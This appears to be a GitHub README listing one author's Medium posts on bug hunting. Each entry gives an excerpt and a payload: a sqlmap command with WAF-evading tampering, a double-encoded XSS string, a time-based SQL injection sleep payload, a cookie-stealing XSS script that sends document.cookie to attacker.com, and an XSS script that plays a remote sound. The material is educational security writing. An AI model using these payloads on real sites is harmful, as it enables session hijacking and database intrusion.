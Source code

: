 ## Cybersecurity Medium Blogs

This repository serves as a collection of insightful and informative blog posts about cybersecurity, originally published on Medium.

- **[SQLi Time-Based Blind Finding Methods @erkankavas](https://medium.com/@erkankavas/sqli-time-based-blind-finding-methods-cdef02de2d0e)**

  As a bug hunter, it is essential to remain ethical and handle such situations professionally. Some individuals react impulsively and retaliate inappropriately in such cases. However, it’s crucial to    maintain self-control.

  ``sqlmap -u "targetlink" -p parameter --tamper=space2comment --dbs --random-agent``

- **[Bypassing WAFs: A Unique XSS Exploit Journey and Insights @erkankavas](https://medium.com/@erkankavas/bypassing-wafs-a-unique-xss-exploit-journey-and-insights-520d7060c281)**
  
  Using two-level encoding like this allowed us to bypass the WAF and conceal the payload.

  To make such payloads more convincing, you can prepend random characters or specific terms, elevating the attack to another level.

  ``%253c---key---%253e---key2—-%2528---emoji---%2529%253c%252f---key---%253e``

- **[Discovering SQLi Vulnerabilities Through Deeper Analysis @erkankavas](https://medium.com/@erkankavas/discovering-sqli-vulnerabilities-through-deeper-analysis-4e305dfbc181)**

  As I’ve mentioned before, the reconnaissance phase is incredibly important, and you should continue your reconnaissance efforts even after finding an initial vulnerability.

  Every small mistake might lead you to something much bigger, so patience and keeping your eyes open are key.

  ``+(select*from(select(sleep(20)))a)+`` 

- **[Hidden Dangers of XSS Vulnerabilities — Real Case @erkankavas](https://medium.com/meetcyber/hidden-dangers-of-xss-vulnerabilities-real-case-22177daa6fc8)**

  With this XSS payload, you can change the location in a reflected XSS vulnerability and redirect the page.

  Another favorite of mine is a payload that allows you to steal cookies:

  ``<script>new Image().src="https://attacker.com/cookie.php?cookie="+document.cookie</script>``

- **[Humorous XSS Vulnerabilities in a Movie Website @erkankavas](https://medium.com/meetcyber/humorous-xss-vulnerabilities-in-a-movie-website-3600d7828661)**

  The system’s logic involves creating a new list from the “Create New List” section in the user profile, naming it, and then adding movies and TV series to curate a personalized list.

  This list is then published on your profile. However, due to a critical oversight by the developers, it’s possible to upload XSS payloads into the list’s title field using a simple trick.

  ```
    <script>
    document.body.addEventListener('click', () => 
    setTimeout(() => 
        new Audio('https://www.myinstants.com/media/sounds/among-us-role-reveal-sound.mp3').play(), 2000), 
    { once: true });
    </script>
  ```
